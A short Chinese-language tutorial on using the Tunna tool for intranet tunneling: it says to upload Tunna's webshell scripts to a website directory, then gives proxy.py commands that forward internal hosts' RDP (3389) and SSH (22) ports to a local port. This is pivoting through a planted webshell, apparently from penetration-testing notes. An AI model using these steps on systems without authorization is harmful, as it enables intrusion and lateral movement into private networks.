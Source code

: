 # Tunna 实现内网穿透

### Github地址

```
https://github.com/SECFORCE/Tunna

```

### 注：Tunna是python2环境

下载到本地之后在webshells目录里有三种格式的脚本如下图

![](images/15897829912132.png)


将对应格式的脚本文件传到网站目录中

然后本地执行

```
python proxy.py -u http://192.168.0.1/conn.php -l 6666 -r 3389 -v

```

如上命令是将内网主机的3389端口转发到本地的6666端口上

本地直接用mstsc链接127.0.0.1：6666即可

```
python proxy.py -u http://192.168.0.1/conn.php -l 6666 -a 172.0.0.2 -r 3389

```

如上命令是将内网其他主机的3389端口转发到本地的6666端口上

```
python proxy.py -u http://172.0.0.1/conn.php -l 1234 -r 22 -v -s

```

## 如上命令，加上-s参数是为了避免连接ssh中断

还有MSF利用tunna转发的方式，这里不做介绍了

